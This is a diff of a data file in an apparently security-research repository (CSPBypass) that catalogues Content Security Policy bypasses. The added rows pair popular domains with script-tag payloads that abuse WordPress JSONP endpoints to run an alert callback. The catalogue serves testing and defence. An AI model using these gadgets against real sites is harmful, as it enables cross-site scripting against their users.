

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added bunch of top 1000 domain bypasses

```diff
--- a/data.tsv
+++ b/data.tsv
@@ row 146 moved to row 178: mc.yandex.ru @@
+row 179: microsoft.com | <script src="https://microsoft.com/en-us/research/wp-json?_jsonp=alert"></script>
+row 181: mouseflow.com | <script src="https://mouseflow.com/wp-json?_jsonp=alert"></script>
@@ row 136 moved to row 183: njkqvifkj7ta6kg86wczisp36m8d01mg.edns.ip… @@
+row 186: okaccedo.com | <script src="https://okaccedo.com/wp-json?_jsonp=alert"></script>
+row 190: openx.com | <script src="https://openx.com/wp-json?_jsonp=alert"></script>
+row 195: paytr.com | <script src="https://paytr.com/wp-json?_jsonp=alert"></script>
@@ row 158 moved to row 196: polyfill-fastly.io @@
+row 198: preply.com | <script src="https://preply.com/wp-json?_jsonp=alert"></script>
+row 202: pubmatic.com | <script src="https://pubmatic.com/wp-json/wp/v2/posts/?_jsonp=alert"></script>
```
Also changed, not shown: 53 added rows and 7 moved rows elsewhere in this file.
